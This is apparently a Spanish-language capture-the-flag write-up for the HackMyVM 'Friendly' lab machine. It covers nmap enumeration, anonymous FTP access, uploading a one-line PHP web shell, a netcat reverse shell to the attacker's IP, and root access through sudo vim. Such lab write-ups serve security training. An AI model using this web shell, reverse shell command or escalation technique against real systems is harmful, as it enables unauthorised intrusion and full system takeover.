 ```yaml
---
title: Friendly HackMyVM
published: true
---
```


- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.36

## Enumeracion

Realizamos unos scaneos rapidos a la maquina con nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 16:58 EDT
Nmap scan report for 10.0.2.36
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.95 seconds
```
Tenemos el puerto 21 y 80 abierto, entonces lanzamos un scaneo pero ahora mandando los scripts que tiene nmap
```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -A -p 21,80 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 16:58 EDT
Nmap scan report for 10.0.2.36
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.24 ms 10.0.2.36

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```
## FTP
El puerto 21 corre FTP y tiene acceso anonimo asi que nos conectamos
```bash
❯ ftp 10.0.2.36       
Connected to 10.0.2.36.
220 ProFTPD Server (friendly) [::ffff:10.0.2.36]
Name (10.0.2.36:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: anonymous
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -la
229 Entering Extended Passive Mode (|||48997|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 .
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete

ftp> get index.html
local: index.html remote: index.html
229 Entering Extended Passive Mode (|||20326|)
150 Opening BINARY mode data connection for index.html (10725 bytes)
100% |*****************************************| 10725      196.69 MiB/s    00:00 ETA
226 Transfer complete
10725 bytes received in 00:00 (15.66 MiB/s)
```

Descargando el index.html en efecto solo era codigo html que era el mismo que el que tenia la pagina. Visto esto pense que quiza el FTP estaba corriendo de alguna manera la web. 

## Reverse shell

Entonces intente subir un archivo para ver si puedo lograr colar archivos en la web. 

```php
❯ cat shell.php     
───────┬────────────────────────────────────────────
       │ File: shell.php
───────┼────────────────────────────────────────────
   1   │ <?php system($_GET['cmd']) ?>
───────┴────────────────────────────────────────────
```

Me cree un archivo php e intento subirlo
```bash
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||15779|)
150 Opening BINARY mode data connection for shell.php
100% |**************************|    30      813.80 KiB/s    00:00 ETA
226 Transfer complete
30 bytes sent in 00:00 (76.29 KiB/s)
```

Ahora probamos si nos deja realizar ejecucion de comandos

```bash
❯ curl "http://10.0.2.36/shell.php?cmd=id" 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora si entonces nos realizamos un reverse shell

```bash
❯ urlencode 'nc 10.0.2.4 443 -e /bin/bash' 
nc%2010.0.2.4%20443%20-e%20%2Fbin%2Fbash
```

```bash
❯ curl "http://10.0.2.36/shell.php?cmd=nc%2010.0.2.4%20443%20-e%20/bin/bash"
```
Nos ponemos en escucha
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.36] 33334
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nos mejoramos la shell a una TTY con los siguientes comandos
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@friendly:/var/www/html$ ctrl+z
zsh: suspended  nc -lvnp 443
                                                                                                
❯ stty raw -echo;fg      
[1]  + continued  nc -lvnp 443 (doble enter)

www-data@friendly:/var/www/html$ export TERM=xterm SHELL=bash
www-data@friendly:/var/www/html$ 
```
## Enumeracion dentro de la maquina
Ahora toca ver la manera de subir de privilegios. Asi que haciendo un poco de enumeracion vemos que podemos ejecutar vim como cualquier usuario
```bash
www-data@friendly:/var/www/html$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```
## Escalando privilegios
Buscando en Gftobins encontramos: https://gtfobins.github.io/gtfobins/vim/
```bash
www-data@friendly:/home/RiJaba1$ sudo -u root /usr/bin/vim -c ':!/bin/sh'
```

Y de esta manera obtenemos una shell como root

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

### user flag

```bash
root@friendly:/home/RiJaba1# cat user.txt
***********************b4475acd6
```

Ahora para la flag de root, Rijaba nos deja una ultima tarea

A la hora de leer la flag dentro de las carpeta ``/root``   
```bash
root@friendly:/home/RiJaba1# cd /root
root@friendly:~# cat root.txt
Not yet! Find root.txt.
```

### root flag

Entonces ahora tendremos que buscar otro archivo que se llame ``root.txt`` asi que para esto emplearemos el comando de ``find``

```bash
root@friendly:~# find / -name root.* 2>/dev/null
/var/log/apache2/root.txt
/root/root.txt

root@friendly:~# cat /var/log/apache2/root.txt
***********************4d3e28d2f
```